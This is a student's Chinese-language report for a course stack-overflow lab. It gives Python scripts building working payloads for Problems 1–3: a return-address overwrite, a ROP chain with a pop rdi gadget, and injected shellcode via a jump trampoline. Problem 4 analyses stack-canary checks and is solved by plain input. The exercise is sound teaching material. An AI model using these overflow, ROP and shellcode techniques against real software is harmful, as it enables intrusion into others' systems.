




# 栈溢出攻击实验

姓名：马咏翔   学号：2024202851

## 题目解决思路


### Problem 1: 
- **分析**：
根据栈溢出的大多数情况，是输入过长导致函数错误跳转，所以我先找到不限制输入长度的那个函数，在这里是`strcpy`，这个函数在`func`之中被调用了，并且`main`在快结束的部分调用了`func`，因此可以知道，这个就是攻击的关键点。再来看`func1`这个函数，可以输出字符串，并且结束程序，显然也目标的跳转函数。因此整个攻击的起点和终点就找到了。
确定攻击起点与终点后，核心是计算栈偏移量以精准覆盖返回地址。`func` 的栈缓冲区起始于 `rbp-0x8`，返回地址位于 `rbp+8`，两者间隔 `16` 字节，需构造 `16` 字节填充数据覆盖缓冲区及保存的 `rbp`，后续拼接跳过 `endbr64` 指令的 `func1` 有效入口地址形成攻击 `payload`，完成攻击。
- **解决方案**：
```python
import sys

# 偏移量：16字节
padding = b'A' * 16

# func1的地址
func1_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'

# 拼接
payload = padding + func1_addr

# 写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("payload已保存到ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：
和`Problem1`的栈溢出攻击思路类似，先定位攻击关键点。`func`函数中调用了`memcpy`，虽指定了拷贝长度但仍存在栈溢出风险，且`main`函数在执行流程中调用了`func`，因此`func`是本次攻击的核心起点。目标跳转函数为`func2`，该函数需接收参数`0x3f8`才会输出成功字符串并终止程序，否则仅输出错误信息，因此攻击需实现向`func2`传参的核心需求。
第一个参数通过`rdi`寄存器传递，需借助`pop_rdi`指令完成参数设置：先构造`16`字节填充数据覆盖`func`栈缓冲区及保存的`rbp`，后续依次拼接`pop_rdi`指令地址、`func2`所需参数`0x3f8`、跳过`endbr64`指令的`func2`入口地址，完成攻击。
- **解决方案**：
```python
# 偏移量
padding = b'A' * 16
    
# pop_rdi指令地址
pop_rdi_addr = b'\xc7\x12\x40\x00\x00\x00\x00\x00'
    
# func2的参数
func2_param = b'\xf8\x03\x00\x00\x00\x00\x00\x00'
    
# func2的入口地址
func2_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'
    
# 拼接
payload = padding + pop_rdi_addr + func2_param + func2_addr
    
# 写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)
    
print("payload已保存到ans2.txt")
```
- **结果**：


### Problem 3: 
- **分析**：
`Problem3`中`func`是触发溢出的核心入口；目标行为是调用`func1`并传入参数0x72，`func1`仅当该参数匹配时输出成功字符串，否则输出错误信息，因此需通过构造特定指令序列完成参数传递与函数调用。
`64`位系统下`func1`的第一个参数需通过`rdi`寄存器传递，构造的指令序列包含`push 0x72`和`pop rdi`指令完成参数设置，再将`func1`地址写入`rax`寄存器并执行`call rax`调用该函数；随后计算栈偏移量：缓冲区起始于`rbp-0x20`，返回地址位于`rbp+8`，两者间隔`40`字节，先用构造的指令序列填充，剩余长度用'A'补齐至`40`字节以覆盖缓冲区及`saved rbp`，再将`func`的返回地址覆盖为`jmp_xs`函数地址，jmp_xs函数会读取`func`提前保存的栈地址并跳转至栈顶的指令序列执行。最终将指令序列、填充数据、小端序的`jmp_xs`地址拼接为`payload`，完成攻击。
- **解决方案**：
```python
# 完成参数传递并调用func1
instr_seq = b"\x6a\x72\x5f\xb8\x16\x12\x40\x00\xff\xd0"

# 补齐至40字节以覆盖栈缓冲区及保存的rbp
padding = b'A' * 30

# jmp_xs函数地址
jmp_xs_addr = b'\x34\x13\x40\x00\x00\x00\x00\x00'

# 拼接
payload = instr_seq + padding + jmp_xs_addr

# 写入文件
with open("ans3.txt", "wb") as f:
    f.write(payload)

print("payload已保存到ans3.txt")
```
- **结果**：完成


### Problem 4: 
- **分析**：
Problem4与前序栈溢出类题目不太一样：一方面题目启用了`Canary`保护机制，另一方面无内存溢出漏洞，因此无需编写溢出代码，仅需分析逻辑条件，构造合法输入即可触发目标行为，有点像`bomblab`。

**1. Canary保护在汇编代码中的体现**
从汇编代码可清晰看到Canary保护的关键指令：
- `121c: 64 48 8b 04 25 28 00 00 00`：读取`%fs:0x28`段的Canary值到`rax`寄存器；
- `1225: 48 89 45 f8`：将Canary值存入栈帧的`-0x8(%rbp)`位置；
- `130a: 64 48 2b 04 25 28 00 00 00`：函数返回前，将栈中`-0x8(%rbp)`的Canary值与`%fs:0x28`的原始值做减法校验；
- `1313: 74 05`：若校验相等，则正常执行返回；
- `1315: e8 b6 fd ff ff call 10d0 <__stack_chk_fail@plt>`：若校验不相等，调用`__stack_chk_fail`终止程序。
`func`、`main`函数中均存在上述的Canary读写、校验指令，程序全局启用了该保护。

**2. 攻击思路**
由于Canary保护，且程序核心逻辑无溢出漏洞，只需分析条件触发输出。`main`函数包含三次输入流程，前两次字符串输入经`caesar_decrypt`解密但无严格校验，说明可以任意填写，第三次整数输入传入`func`函数作为参数；`func`函数内的条件判断仅当传入参数为`-1`时，会满足相等校验，进而调用`func1`输出通关提示字符串并终止程序。因此只需构造输入：前两行填写任意字符串，第三行固定为`-1`，完成攻击。
- **解决方案**：
```python
# 三行输入，前两行随机，最后一行是-1
str1 = "myxRUC"
str2 = "Yes"
str3 = "-1"

# 拼接
payload = f"{str1}\n{str2}\n{str3}"

# 写入文件
with open("ans4.txt", "w", encoding="utf-8") as f:
    f.write(payload)
    
print("成功生成ans4.txt")
```
- **结果**：完成


## 思考与总结

通过这次栈溢出攻击实验，我对栈溢出的原理和实际应用有了一些认识。从最基础的计算偏移量覆盖返回地址，到给目标函数传参的场景，再到构造指令序列实现函数调用，一步步理解了栈溢出攻击的核心思路，利用内存拷贝函数的漏洞，精准控制栈中的数据来跳转到目标函数。

同时也认识到不同防护机制的作用，比如`Problem4`中的`Canary`保护会阻断栈溢出的可能性，这时候就需要换思路，从程序逻辑入手构造合法输入；不过理论上`Canary`值也是不够安全的。这次实验让我明白，面对不同的程序场景，要先分析程序的漏洞类型和防护机制，再选择对应的解决方法，而不是一味套用固定的攻击思路。

另外，精准计算偏移量、理解寄存器传参规则这些细节，都是成功完成攻击的关键，也让我更注重对汇编代码的分析和理解。

另外说明，本实验`Problem2`和`3`由AI指导完成。